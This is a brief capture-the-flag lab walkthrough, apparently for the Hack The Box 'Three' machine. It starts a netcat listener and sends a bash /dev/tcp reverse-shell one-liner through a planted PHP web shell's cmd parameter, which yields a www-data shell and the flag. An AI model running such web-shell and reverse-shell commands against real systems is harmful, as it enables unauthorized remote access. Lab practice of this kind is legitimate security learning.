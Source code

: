 ![](../Assets/Screenshot%202025-08-20%20at%2015.59.25.png)
### Connect a reverse shell
- Useful resources
	- https://medium.com/@tareshsharma17/simple-php-reverse-shell-061d4a6bd18d#:~:text=Crafting%20the%20Web%20Shell
	- https://medium.com/@tareshsharma17/simple-php-reverse-shell-061d4a6bd18d#:~:text=Start%20a%20Listener%20on%20Your%20Machine
	- https://medium.com/@tareshsharma17/simple-php-reverse-shell-061d4a6bd18d#:~:text=sh%2B%3CYOUR_IP%3E%2B4444-,Bash%20Reverse%20Shell,-%3A
#### Terminal: Start a netcat listener
```bash
nc -nvlp 4444
```
#### Browser: Send request
```bash
http://thetoppers.htb/shell.php?cmd=bash -c 'bash+-i+>%26+/dev/tcp/10.10.14.85/4444+0>%261'
```
- Result in the terminal
```bash
www-data@three:/var/www/html$ 
```
### Explore files and directories
- Flag found in  `/var/www` directory
### Retrieve the flag
```bash
cat /var/www/flag.txt
```
